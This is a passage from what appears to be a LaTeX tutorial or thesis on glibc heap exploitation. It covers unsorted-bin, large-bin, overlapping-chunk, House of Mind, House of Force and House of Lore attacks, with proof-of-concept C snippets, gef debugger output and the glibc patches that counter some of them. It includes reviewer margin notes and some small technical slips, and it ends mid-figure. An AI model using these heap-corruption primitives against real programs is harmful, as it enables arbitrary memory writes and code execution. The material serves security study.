Now, all we have to do is remove \lstinline{a} from the top of the \fb{} with a call to \mallocc{}, then, the final allocation returns a controlled address. In this case, a pointer into the stack.

\section{\Ub{} attack}
\label{sect:ubattack}
In previous sections, we saw how to implement an attack on \fb{}. Now, we want to demonstrate an attack on the \ub{}. As the name suggests, this attack abuses \ub{} to conduct the attack. The mechanism of this attack is to take control of the backward pointer of chunks in the \ub{}. This attack aims to modify a value; as a result, this attack can be combined with others.

Let's start with an example and consider the following code. This code tries to write an address inside the heap area in the stack. In \refToSection{houseofroman}, we talk about using this type of vulnerability in a real attack.\glnote{Undefined reference; check the cross-references}

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long stack_var=0;
unsigned long *p=malloc(400);
malloc(500);
free(p);
//------------VULNERABILITY-----------
p[1]=(unsigned long)(&stack_var-2);
//------------------------------------
malloc(400);
\end{lstlisting}
 At the first line, we define our target \lstinline{stack_var} where we want to write the great value. On the second and third lines, we allocate two memory chunks from the heap. The second allocation needs to keep a distance from the top of the heap; otherwise, when we free \lstinline{p} the heap manager merges it with the top of the heap automatically. Finally, we have to write our target address in the backward pointer of \lstinline{p}. Now, the heap manager does the rest. As we mentioned before \ub{} uses a double linked list, so, when the heap manager tries to remove a chunk from this double-link list, the backward pointer must be rewritten to remove a chunk from the list; in \mallocc{}, we have such a code \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3738}{\texttt{malloc.c}, line 3738}}:

\begin{lstlisting}[language=c,frame=tlrb]
unsorted_chunks (av)->bk = bck;
bck->fd = unsorted_chunks (av);
\end{lstlisting}

The last \mallocc{} tries to allocate 400 bytes of memory, so the heap manager checks the \ub{} to find a fair chunk of memory. Also, move the \ub{} chunk to corresponding bins. If we check the \mallocc{} source code, we can see \mallocc{} checks every item to achieve this goal. At first, we have such a code \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3728}{\texttt{malloc.c}, line 3728}} :
\begin{lstlisting}[language=c,frame=tlrb]

while ((victim = unsorted_chunks (av)->bk) != unsorted_chunks (av)){
bck = victim->bk;
\end{lstlisting}
Variable \lstinline{av} is the arena, \lstinline{unsorted_chunks (av)} is the head of the \ub{}, and \lstinline{victim} is our current item. You can see, \mallocc{} checks items from the head of the \ub{} and removes them one by one. Putting it all together:

\begin{lstlisting}[language=c,frame=tlrb]
victim = unsorted_chunks (av) -> bk = p
bck = victim->bk = p->bk = target addr-16
unsorted_chunks(av)->bk = bck = target addr-16
bck->fd = *(target addr -16+16) = unsorted_chunks(av);
\end{lstlisting}

Now it is clear that if we control the backward pointer, then, we can write data to any address, however, we do not have control over data. In this case, the linked list header was written on a stack variable. In the case of \emph{ASLR}, this vulnerability can help to find an address inside the heap area.

In the recent versions of \libc{} the following check was added to prevent this attack \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3785}{\texttt{malloc.c}, line 3785}}:

\begin{lstlisting}[language=c,frame=tlrb]
if (__glibc_unlikely (bck->fd != victim))
	malloc_printerr ('malloc(): corrupted unsorted chunks 3');
\end{lstlisting}

\section{\Lb{} attack}
\label{sect:lbattack}
As the name suggests, this attack is about the \lb{}. The goal is to force a \lb{} to write data in a controlled location.

\begin{lstlisting}[language=c,frame=tlrb]
size_t target = 0;
size_t *p1 = malloc(0x428);
size_t *g1 = malloc(0x18);
size_t *p2 = malloc(0x418);
size_t *g2 = malloc(0x18);
\end{lstlisting}

The first step is to define the target; also, we need to define two chunks in the range size of \lb{}; moreover, we need to define two chunks in the middle to prevent them from merging with each other or with the top chunk.

\begin{lstlisting}[language=c,frame=tlrb]
free(p1);
size_t *g3 = malloc(0x438);
\end{lstlisting}

In the second step, we free the biggest chunk; however, the freed chunk is not in the \lb{} yet. As we discussed, \freec{} adds the freed chunk to \ub{} at first; so, the best way to move it into the \lb{} is to allocate a new bigger chunk. In this way, the heap manager checks the chunk inside the \ub{}, then adds them into the corresponding bins (like other attacks).

\begin{lstlisting}[language=c,frame=tlrb]
free(p2);
\end{lstlisting}

In the third step, we free the smaller chunk. Now we have one chunk inside the \lb{} and one chunk in the \ub{}.

\begin{lstlisting}[frame=tlrb]
unsorted_bins[0]: fw=0x5555555596e0, bk=0x5555555596e0
Chunk(addr=0x5555555596f0, size=0x420, flags=PREV_INUSE)

large_bins[63]: fw=0x555555559290, bk=0x555555559290
Chunk(addr=0x5555555592a0, size=0x430, flags=PREV_INUSE)
 \end{lstlisting}

 The next step is to put the target address - 0x20 in the \lstinline{p1->bk_nextsize}. As we mentioned before, just \lb{} chunks use this pointer; they point to the next biggest chunk in the link list.

\begin{lstlisting}[language=c,frame=tlrb]
p1[3] = (size_t)((&target)-4);
size_t *g4 = malloc(0x438);
\end{lstlisting}

The last step is to allocate a bigger chunk, so, \lstinline{p2} moves to a larger chunk. When \lstinline{p2} move to large chunk, the heap manager write the address of \lstinline{p2} inside \lstinline{p1->bk_nextsize->fd_nextsize} as the code of \libc{} show \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3843}{\texttt{malloc.c}, line 3843}}:

\begin{lstlisting}[language=c,frame=tlrb]
fwd = bck;
bck = bck->bk;
victim->fd_nextsize = fwd->fd;
victim->bk_nextsize = fwd->fd->bk_nextsize;
fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim;
 \end{lstlisting}

This attack works on \libc{} below 3.0.

\section{Overlapping chunks}
\label{sect:overlappingchunk}
The goal is to have two chunks, writing data in one of them and overwriting the other one data. We discuss this attack on a sample, first let us start 3 chunk of memory:

\begin{lstlisting}[language=c,frame=tlrb]
p1 = malloc(0x100 - 8);
p2 = malloc(0x100 - 8);
p3 = malloc(0x80 - 8);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
 \end{lstlisting}

 Now lets\glnote{``let us'', do not use contractions in formal writing} \freec{} the second chunk, As we discuss, This chunk add to the \ub{} at first, then, It can be used for future allocation:

\begin{lstlisting}[language=c,frame=tlrb]
free(p2).
 \end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
\end{lstlisting}

\begin{lstlisting}[language=c,frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x100, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
Chunk(addr=0x555555559210, size=0x80, flags=)
 [0x0000555555559210 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 33 3333333333333333]
Chunk(addr=0x555555559290, size=0x20d80, flags=PREV_INUSE) top chunk

 \end{lstlisting}
In the next step, as we did before, we have to change the chunk size by overflow:

\begin{lstlisting}[language=c,frame=tlrb]
int evil_chunk_size = 0x181;
int evil_region_size = 0x180 - 8;
*(p2-1) = evil_chunk_size;
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]

unsorted_bins[0]: fw=0x555555559100, bk=0x555555559100
 Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 \end{lstlisting}

As you remember, currently, p2 located at the \ub{}, also, we change the size of p2, so, the heap manager return p2 when receives an allocation request, as the result, p2 has overlap with previous chunks:

\begin{lstlisting}[language=c,frame=tlrb]
p4 = malloc(evil_region_size);
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x100, flags=PREV_INUSE)
 [0x0000555555559010 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 1111111111111111]
Chunk(addr=0x555555559110, size=0x180, flags=PREV_INUSE)
 [0x0000555555559110 78 1b dd f7 ff 7f 00 00 78 1b dd f7 ff 7f 00 00 x.......x.......]
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p p4
$11 = (intptr_t *) 0x555555559110
gef: p p2
$12 = (intptr_t *) 0x555555559110
gef: p p1
$13 = (intptr_t *) 0x555555559010
gef: p p3
$14 = (intptr_t *) 0x555555559210
 \end{lstlisting}

As you can see, p3 is not in the list of chunks anymore, however, the pointer still accessible inside the application. Now the p3 and p4 have overlap, so, write data on one of them overwrite the other one data
What happened if the chunk size was so big? As we mentioned, the system uses \mmapc{} in this scenario. Take consider the following code:

\begin{lstlisting}[language=c,frame=tlrb]
int* ptr1 = malloc(0x10);
long long* top_ptr = malloc(0x100000);
long long* mmap_chunk_2 = malloc(0x100000);
long long* mmap_chunk_3 = malloc(0x100000);
 \end{lstlisting}

heap layout after allocation

\begin{lstlisting}[frame=tlrb]
Chunk(addr=0x555555559010, size=0x20, flags=PREV_INUSE)
 [0x0000555555559010 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................]
Chunk(addr=0x555555559030, size=0x410, flags=PREV_INUSE)
 [0x0000555555559030 0a 43 75 72 72 65 6e 74 20 53 79 73 74 65 6d 20 .Current System ]
Chunk(addr=0x555555559440, size=0x20bd0, flags=PREV_INUSE) top chunk
 \end{lstlisting}

\begin{lstlisting}[frame=tlrb]
gef: p mmap_chunk_2
$1 = (long long *) 0x7ffff7935010
gef: p mmap_chunk_3
$2 = (long long *) 0x7ffff7834010
gef: p top_ptr
$3 = (long long *) 0x7ffff7ef2010
 \end{lstlisting}

Like the previous one, we change the size of the last chunk. The new chunk size is the sum of the size of \lstinline{chunk_3} and \lstinline{chunk_2}; as a result, the unmmap freezes both areas.

\begin{lstlisting}[language=c,frame=tlrb]
free(mmap_chunk_3)
 \end{lstlisting}

In this stage, if we allocate a new big chunk, this new big chunk has overlap with \lstinline{chunk_2} which just has been unmmap without call unmmap directly; as a result, we can write on the chunk2 area with the help of our new chunk.

\section{The Houses}
\label{sect:thehouses}
It is time to talk about the House of \emph{something} families' attack. In 2004 the authors of \libc{} published a series of patches over \mallocc{} to prevent previous attacks on heap manager. In late 2004 a person issued a paper \emph{The Malloc Maleficarum}, over the internet. ``It is for this reason, a small suggestion of impossibility, that I present the Malloc Maleficarum'' As they said. The name came from a 14-century book written by a Catholic clergyman on witchcraft, cool:)

\subsection{The House of Mind}
\label{subsect:housemind}
The goal of this attack is to overwrite a memory location by abusing the \freec{} function. Take a look at \freec{} function \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4154}{\texttt{malloc.c}, line 4154}}:
\begin{lstlisting}[language=c,frame=tlrb]
public free(Void_t* mem){
 mstate ar_ptr;
 mchunkptr p;
  /* ... */
 p = mem2chunk(mem);
  /* ... */
 ar_ptr = arena_for_chunk(p);
  /* ... */
 _int_free(ar_ptr, mem);
}
 \end{lstlisting}
As we mentioned, when the user requests a memory allocation \libc{} returns a pointer to the data section on the allocated chunk, however, to free chunk \libc{} needs a pointer to the beginning of the chunk. \lstinline{mem2chunk} responsible to convert mem pointer to chunk pointer by subtracting address from metadata size. Then this chunk passes to \lstinline{arena_for_chunk} macro. Take a look at the code:

\begin{lstlisting}[language=c,frame=tlrb]
#define HEAP_MAX_SIZE (1024*1024)
#define heap_for_ptr(ptr) \
 ((heap_info *)((unsigned long)(ptr) & ~(HEAP_MAX_SIZE-1)))
#define chunk_non_main_arena(p) ((p)->size & NON_MAIN_ARENA)
#define arena_for_chunk(ptr) \
(chunk_non_main_arena(ptr)?heap_for_ptr(ptr)->ar_ptr: &main_arena)
 \end{lstlisting}

When a \lstinline{non_main} arena heap creates, the first thing that goes into this heap is \lstinline{heap_stricture}, this structure contains a field call \lstinline{ar_ptr}, In the above code \lstinline{ar_ptr} stands for arena for this heap, also, as you remember there is a bit in the size field which stands for \lstinline{non_main_arena}. Since the attacker has control of the size field, can control chunk threats as the main arena or \lstinline{non_main} arena. We can conclude, if the \lstinline{non_main_arena} is set, then \lstinline{chunk_non_main_arena} return true,as the result \lstinline{ar_ptr} in \freec{} function is set to \lstinline{heap_for_ptr(ptr)->ar_ptr}.
This attack works by manipulating the heap in a way a fake \lstinline{ar_ptr} supply to \lstinline{_init_free}; as a result, an arbitrary overwrite happen. The Attacker has to allocate enough memory until it reaches \lstinline{non_main_arena} where he has control over arena data. Max heap size is 1024*1024 plus 512kb of padding, so max allocation never is more than 1MB.
We saw It possible to hijack the \lstinline{heap_info} and supply an arbitrary \lstinline{ar_ptr} value, so, what value should we use for \lstinline{ar_ptr}? We have two options on that:

\paragraph*{Large area of memory}
Use a large area of memory then \ub{} link code overwrite the target for us. There is some condition and security check, if we can bypass them all the following code of \ub{} do the real job:
\begin{lstlisting}[language=c,frame=tlrb]
bck = unsorted_chunks(av);
fwd = bck->fd;
p->bk = bck;
p->fd = fwd;
bck->fd = p;
fwd->bk = p;
\end{lstlisting}

In the above code ‘p’ stands for the address of the attacker overflowed chunk, \lstinline{unsorted_chunks(av)} returns \lstinline{av->bin[0]} which is controlled by the attacker, as the result, \lstinline{bk->fd} overwrite ‘p’.

\paragraph*{Fast bin}
Consider following code of \fb{}
\begin{lstlisting}[language=c,frame=tlrb]
if ((unsigned long)(size) <= (unsigned long)(av->max_fast)){
	if (chunk_at_offset (p, size)->size <= 2 * SIZE_SZ
	|| __builtin_expect (chunksize (chunk_at_offset (p, size)) >= av->system_mem, 0)){
		errstr = "free(): invalid next size (fast)";
		goto errout;
}
set_fastchunks(av);
fb = &(av->fastbins[fastbin_index(size)]);
 /* ... */
p->fd = *fb;
*fb = p;
}

 \end{lstlisting}
The ideal way in this approach is to take control of fb, so, in the following line, fb overwrites on target. This scenario needs to bypass conditions too. This attack still works on the current version on \libc{}, so let us see a real sample from how2heap on the house of mind. Consider the following code:
\begin{lstlisting}[language=c,frame=tlrb]
int HEAP_MAX_SIZE = 0x4000000;
int MAX_SIZE = (128*1024) - 0x100;
\end{lstlisting}

The first line is maximum heap size, also, the second line is maximum chunk size. This is the threshold of \mmapc{}.
\begin{lstlisting}[language=c,frame=tlrb]
uint8_t* fake_arena = malloc(0x1000);
uint8_t* target_loc = fake_arena + 0x30;
uint8_t* target_chunk = (uint8_t*) fake_arena - 0x10;
\end{lstlisting}

The second step is to initialize the mentioned fake arena and target location. Then, initial \lstinline{malloc_state} of the arena, also, \lstinline{system_mem} field. This field is used to validate the size of the chunk, so it must be larger than our chunk size.
\begin{lstlisting}[language=c,frame=tlrb]
fake_arena[0x888] = 0xFF;
fake_arena[0x889] = 0xFF;
fake_arena[0x88a] = 0xFF;
\end{lstlisting}

Now we need to find the location of fake arena
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t new_arena_value = (((uint64_t) target_chunk) + HEAP_MAX_SIZE) & ~(HEAP_MAX_SIZE - 1);
uint64_t* fake_heap_info = (uint64_t*) new_arena_value;
\end{lstlisting}

The next step as we told, the location of fake arena is located at an offset of the heap so we have to allocate fake chunks until reach the fake new arena:
\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* user_mem = malloc(MAX_SIZE);
while((long long)user_mem < new_arena_value){
	 /* ... */
	user_mem = malloc(MAX_SIZE);
}
\end{lstlisting}

As we told, this approach use the \fb{} approach, so, we need a chunk in range of the \fb{} chunk, also, a pointer to chunk:

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* fastbin_chunk = malloc(0x50)
uint64_t* chunk_ptr = fastbin_chunk - 2
\end{lstlisting}
This file work on \libc{-2.31} which support \tch{} as the first mechanism, so, like \lstinline{fastbin_dup}, all we need is to fill up the \tch{} to force the heap manager role back to the \fb{}

\begin{lstlisting}[language=c,frame=tlrb]
uint64_t* tcache_chunks[7];
for(int i = 0; i < 7; i++){
	tcache_chunks[i] = malloc(0x50);
}
for(int i = 0; i < 7; i++){
	free(tcache_chunks[i]);
}
\end{lstlisting}

The next step is setting up \lstinline{ar_ptr} of heap structure in the fake heap. This field is the first one in the structure at offset 0x00.

\begin{lstlisting}[language=c,frame=tlrb]
fake_heap_info[0] = (uint64_t) fake_arena
\end{lstlisting}

Now we have to set \lstinline{non_main_arena} bit in the size field of our victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
chunk_ptr[1] = 0x60 | 0x4;
\end{lstlisting}

Everything is set up now, all we need is call free function for the victim chunk:

\begin{lstlisting}[language=c,frame=tlrb]
free(fastbin_chunk);
\end{lstlisting}

\begin{figure}[h!]
\makebox[\textwidth][c]{
\includegraphics[height=0.35\textwidth]{gdb1}}
\caption{the address of our fake arena overwritten on target location}
\label{fig:fakearens}
\end{figure}

\subsection{The house of Force}
\label{subsect:houseforce}
The house of Force is the first attack of House of X, which we want to discuss.\glnote{It comes after the House of Mind, though\ldots} We talk about the top chunk and the way \libc{} manages it. As we mentioned, when there is no suitable free chunk for ongoing allocation requests, \libc{} uses the top chunk as free space and creates a chunk from scratch. So what happens if we have control over top chunk size? The goal of this attack is to use this vulnerability to write a value in an arbitrary address. Consider the following code from \libc{-2.23} \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4087}{\texttt{malloc.c}, line 4087}}:
\begin{lstlisting}[language=c,frame=tlrb]
 /* ... */
use_top:
	victim = av->top;
	size = chunksize (victim);
	if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)){
	   remainder_size = size - nb;
	   remainder = chunk_at_offset (victim, nb);
	   av->top = remainder;
	   set_head (victim, nb | PREV_INUSE |
	     (av != &main_arena ? NON_MAIN_ARENA: 0));
	   set_head (remainder, remainder_size | PREV_INUSE);
	   check_malloced_chunk (av, victim, nb);
	   void *p = chunk2mem (victim);
	   alloc_perturb (p, bytes);
	   return p;
}
\end{lstlisting}
As you can see in the first step \libc{} compares the requested chunk size and top chunk size, as the result, the first step is to set a large value in top chunk size to bypass this step, cheating \libc{} to use this space. The following code Is \lstinline{hose_of_force} sample from how2heap:

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *p1 = malloc(256);
int real_size = malloc_usable_size(p1);
\end{lstlisting}

The first line allocates a big chunk of data from heap memory, so the memory becomes divided into two parts: The allocated part, the top chunk. \lstinline{real_size} is the size of the data section in the chunk. We need to overwrite the top chunk size; to do that, we need a pointer to the top chunk first. The top chunk located at the following address:

\begin{lstlisting}[language=c,frame=tlrb]
intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size - sizeof(long));
\end{lstlisting}

Now, we have a pointer to the top chunk, all we have to do overwrite the size field:

\begin{lstlisting}[language=c,frame=tlrb]
*(intptr_t *)((char *)ptr_top + sizeof(long)) = -1
\end{lstlisting}

If you check the \libc{} above code, you can see the \libc{} convert the size to (unsigned long), so, \-1 is the largest number. Now we put a big number on size, so, \mallocc{} doesn’t call \mmapc{} to get more memory from os, instead, it uses the top chunk. All we have to do now is allocate a chunk from the top chunk to right before our target, then, the second chunk is be our target:

\begin{lstlisting}[language=c,frame=tlrb]
unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;
void *new_ptr = malloc(evil_size);
\end{lstlisting}

The above code calculates the distance between the top chunk beginning and the target \lstinline{bss_var}. In the following, allocate enough memory space to reach the target. This chunk does not point to target; instead, this chunk point to the start of the top chunk, so we need to allocate the second chunk:

\begin{lstlisting}[language=c,frame=tlrb]
void* ctr_chunk = malloc(100);
\end{lstlisting}

This chunk points to our target, so, with one simple strum we can overwrite the value:

\begin{lstlisting}[language=c,frame=tlrb]
strcpy(ctr_chunk, "YEAH!!!");
\end{lstlisting}

Unfortunate this attack does not work on current \libc{} version because of below patch \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l4106}{\texttt{malloc.c}, line 4106}}:
\begin{lstlisting}[language=c,frame=tlrb]
if (__glibc_unlikely (size > av->system_mem))
  malloc_printerr ("malloc(): corrupted top size");
\end{lstlisting}

\subsection{The House of Lore}
\label{subsect:houselore}
This attack abuses the vulnerability inside \sbs{} to modify memory in any location. If we check the \mallocc{} source code, we can see there is a check for small chunk request, so, if the requested chunk fits inside the \sbs{} range, the heap manager use it.

\begin{lstlisting}[language=c,frame=tlrb]
if (in_smallbin_range (nb))
\end{lstlisting}

In the following we have below code. \footnote{\href{https://sourceware.org/git/?p=glibc.git;a=blob;f=malloc/malloc.c;h=f7cd29bc2f93e1082ee77800bd64a4b2a2897055;hb=9ea3686266dca3f004ba874745a4087a89682617\#l3635}{\texttt{malloc.c}, line 3635}}

\begin{lstlisting}[language=c,frame=tlrb]
bck = victim->bk;
if (__glibc_unlikely(bck->fd != victim)) {
	 errstr = "malloc(): smallbin double linked list corrupted";
	 goto errout;
}
set_inuse_bit_at_offset(victim, nb);
bck->fd = bin;
\end{lstlisting}

AS you can see if we have control over the victim bck pointer and bypass the security check, libc return our fake chunk on the next smallbin allocation. In other words, we can return a chunk to any address. Now we explain it in a real sample:

\begin{lstlisting}[language=c,frame=tlrb]
 intptr_t* stack_buffer_1[4] = {0};
 intptr_t* stack_buffer_2[3] = {0};
 intptr_t *victim = malloc(0x100);
 intptr_t *victim_chunk = victim-2;
\end{lstlisting}

At first, we allocate a small chunk, then calculate the actual address of the chunk by subtracting header size from the data section address like always.

\begin{lstlisting}[language=c,frame=tlrb]
 stack_buffer_1[0] = 0;
 stack_buffer_1[1] = 0;
 stack_buffer_1[2] = victim_chunk;

 stack_buffer_1[3] = (intptr_t*)stack_buffer_2;
 stack_buffer_2[2] = (intptr_t*)stack_buffer_1;
\end{lstlisting}
Now we forge a fake chunk, point the \lstinline{bck} pointer of \lstinline{buffer_1} to the victim, the fwd pointer of \lstinline{buffer_1} to \lstinline{buffer_2}, also, the bck pointer of \lstinline{buffer_2} to \lstinline{buffer_1}. In this way, we can bypass the \sbs{} security check.
\begin{lstlisting}[language=c,frame=tlrb]
void *p5 = malloc(1000);
free((void*)victim);
void *p2 = malloc(1200);
\end{lstlisting}

To prevent merging the top chunk with a small one during \freec{} we allocate a big chunk on top of the heap. After that by freeing the victim, it moves to the \ub{} ``Figure~\ref{fig:gdb2}``\glnote{don't use quotes for figures; just say something like ``as shown in\ldots'' or ''Figure\ldots shows\ldots}. In the following step, we allocate another chunk big enough, so, heap manager can't\glnote{no contractions} use the chunk inside an \ub{} or \sbs{}.
\begin{lstlisting}[language=c,frame=tlrb]
victim[1] = (intptr_t)stack_buffer_1; // victim->bk is pointing to stack
\end{lstlisting}

\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb2}}
 \caption{Heap layout}
 \label{fig:gdb2}
\end{figure}
After that, we need to abuse the vulnerability, so the bck pointer of the victim points to our controlled memory address.
\begin{figure}[h!]
 \makebox[\textwidth][c]{
\includegraphics[height=0.3\textwidth]{gdb3}}
 \caption{Heap layout}
 \label{fig:gdb3}
\end{figure}
The victim is not in the \ub{} anymore; instead, the heap manager moves it to the \sbs{} after allocation of p2 ``Figure~\ref{fig:gdb3}``. As we remember, the heap manager checks all of the chunks inside the \ub{}. If the size is not suitable for the current allocation, they move to the corresponding bin. In other words, we force the heap manager to move the victim from the \ub{} to the \sbs{}.

\begin{lstlisting}[language=c,frame=tlrb]
void *p3 = malloc(0x100);
char *p4 = malloc(0x100);
\end{lstlisting}

\begin{figure}[h!]
